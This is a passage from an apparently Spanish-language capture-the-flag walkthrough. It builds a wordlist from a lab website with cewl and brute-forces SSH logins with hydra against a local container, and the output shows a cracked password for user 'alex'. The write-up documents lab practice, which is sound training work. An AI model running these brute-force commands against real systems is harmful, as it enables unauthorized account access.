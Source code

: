 ```shell
chmod +x sender
./sender
```

Info:

```
Uso: ./sender <IP> <PUERTO>
```

Por lo que vemos necesitamos la IP que seria la de la maquina victima, pero el puerto aparentemente todavia no le sabemos, ya que parece ser que se puede enviar algun tipo de informacion a dicho puerto el cual todavia no sabemos, por lo que seguiremos investigando.

## Escalate user alex

### cewl

Si investigamos en la pagina vemos `3` posibles usuarios que estan encima del `footer` que srian los siguientes:

> users.txt

```
juan
marta
alex
```

Por lo que vamos a crearnos un diccionario de usuarios con esos `3` y vamos a generar un diccionario de contraseñas de las palabras que se puedan encontrar en la pagina web de la siguienet forma:

```shell
cewl http://<IP>/ -w dic.txt
```

Info:

```
CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```

Esto nos habra generado un diccionario de palabras de la pagina web, por lo que ahora utilizaremos `hydra` para saber si alguno de los usuarios de la lista tuviera alguna contraseña debil.

### Hydra

```shell
hydra -L users.txt -P dic.txt ssh://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-23 06:57:18
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 327 login tries (l:3/p:109), ~6 tries per task
[DATA] attacking ssh://172.17.0.3:22/
[22][ssh] host: 172.17.0.3   login: alex   password: emfUa
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-12-23 06:57:55
```
